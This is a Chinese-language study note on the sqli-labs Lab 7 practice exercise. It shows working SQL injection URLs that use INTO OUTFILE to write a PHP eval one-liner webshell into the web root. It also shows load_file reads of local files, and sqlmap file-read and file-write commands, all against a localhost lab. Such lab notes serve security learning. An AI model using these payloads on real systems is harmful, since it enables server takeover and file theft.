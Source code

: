 # Lab 7 GET - Dump into outfile - String （导出文件GET字符型注入）

## 以下是博客学习内容

+ 概要：把查询结果导出到文件中，常用语句为 `select "<?php @eval($_POST['giantbranch']);?>" into outfile "XXX\test.php" `， 当然要获取网站在系统中的具体路径（绝对路径） -- 怎么获取？根据系统和数据库猜测（那就是经验咯）；当然不是啦，SQL中有提供函数which有很大可能让我们获取到这个路径，看吧，用lab3的环境 -- 

@@datadir -- 读取数据库的路径

@@basedir -- 安装MYSQL路径

![7_1](.\images\7_1.png)

+ ps：在这里关于导出sql查询结果到文件的时候需要注意设置sql里面的secure-file-priv属性，若报以下错误可以参考`坑.md`

+ [ ] <?php @eval($_POST['giantbranch']);?>" -- 这句话不知道是干啥用的诶？？！？！先空着，学习后面的先

+ 话说这次lab就是为了让我们知道有导出文件这一操作吗 -- 看一波视频先

## 以下是视频学习内容

+ 概要：mysql可以对文件进行读写，但是要权限足够 -- 用户权限最好要有root & secure_file_priy指定目录,以下命令查看secure_file_priv指定目录情况

```mysql
show global variables like "secure_file_priv"
```

完了以后参考`坑.md`即可配置secure_file_priv相关信息

+ 读文件

```mysql
mysql命令行中
select load_file("C:\\sqlread_test.txt") -- 注意要用\\而不是\
```

```
http://localhost/sqli-labs-master/Less-1/?id=0' union select 1,2,load_file("C:\\sqlread_test.txt") --+
```

+ 写文件

'<?php phpinfo();?>' -- 会返回当前的网站配置信息

```
http://localhost/sqli-labs-master/Less-7/?id=0')) union select 1,2,'<?php phpinfo();?>' into outfile 'C:\\phpStudy\\PHPTutorial\\WWW\\sqli-labs-master\\Less-7\\1.php' --+
```

打开`1.php`发现

![7_2](.\images\7_2.png)

+ 写入webshell

  + 一句话木马 -- <?php @eval($_POST['x']);?>

  ```mysql
  http://localhost/sqli-labs-master/Less-7/?id=0')) union select 1,2,'<?php @eval($_POST["x");?>' into outfile 'C:\\phpStudy\\PHPTutorial\\WWW\\sqli-labs-master\\Less-7\\1.php' --+
  ```

  

  + @屏蔽错误信息
  + 把输入的'x'都当做命令
  + 使用中国菜刀可以连接，连接了以后就可以为所欲为了，x相当于连接密码;中国菜刀有点强

  ![7_3](.\images\7_3.png)

+ sqlmap测试

  + sqlmap -hh 查看详细的帮助信息

  + 下列命令用于利用sqlmap读写文件，不多赘述，撸几遍代码就懂
  
    ```
    sqlmap -u "http://localhost/sqli-labs-master/Less-7/?id=1" --file-read "G:\\flag.txt" -- 读取网站上的文件
  
    sqlmap -u "http://localhost/sqli-labs-master/Less-7/?id=1" --file-write local_file --file-dest destination_filedir_in_web -- 把本地的某个文件上传到网站上某个位置
  ```
    
    